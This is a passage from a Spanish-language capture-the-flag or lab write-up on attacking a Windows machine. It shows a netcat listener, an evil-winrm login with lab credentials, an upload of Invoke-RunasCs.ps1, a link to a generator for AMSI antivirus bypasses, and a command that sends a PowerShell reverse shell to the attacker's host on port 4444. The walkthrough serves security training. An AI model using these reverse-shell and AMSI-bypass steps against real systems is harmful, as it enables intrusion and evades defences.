 
  Pero antes, nos pondremos en escucha en el puerto **4444**:
  
  ```ruby
      ┌──(root㉿kali)-[/home/user]
      └─# nc -nlvp 4444
      listening on [any] 4444 ...
  ```

  Ahora ya podemos conectarnos como el usuario **nica**

  ```ruby

    ┌──(root㉿kali)-[/home/user]
    └─# evil-winrm -i 192.168.56.102 -u nica -p hardcore

    *Evil-WinRM* PS C:\Users\nica\Documents> upload /home/user/Invoke-RunasCs.ps1

    Info: Uploading /home/user/Invoke-RunasCs.ps1 to C:\Users\nica\Documents\Invoke-RunasCs.ps1

    Data: 117712 bytes of 117712 bytes copied

    Info: Upload successful!
    
    *Evil-WinRM* PS C:\Users\nica\Documents>

   ```

  Si intentamos importar el modulo de Invoke-RunasCs.ps1 nos lo bloquea el antivirus.

  AMSI (Antimalware Scan Interface) es una protección mejorada de Windows que analiza scripts y bloquea los que contienen firmas conocidas de malware.
 
  Para evitar esto, entraremos a esta web y generar un bypass personalizado: [**AMSI-Bypass-Generator**](https://d1se0.github.io/AMSI-Bypass-Generator/index.html) 
  
   
  
  El bypass que crearás con esta web lo que hace es Desactiva AMSI en memoria

  Una vez desactivado el AMSI ya podemos importar los módulos de Invoke-RunasCs.ps1

  ```ruby

  *Evil-WinRM* PS C:\Users\nica\Documents> import-module ./Invoke-RunasCs.ps1
  ```
  Ahora nos conectaremos remotamente 
 
  ```ruby
    *Evil-WinRM* PS C:\Users\nica\Documents> invoke-RunasCs akanksha sweetgirl powershell -remote 192.168.56.101:4444

    [+] Running in session 0 with process function CreateProcessWithLogonW()
    [+] Using Station\Desktop: Service-0x0-503d31$\Default
    [+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 2788 created in background.
    *Evil-WinRM* PS C:\Users\nica\Documents>
  ```
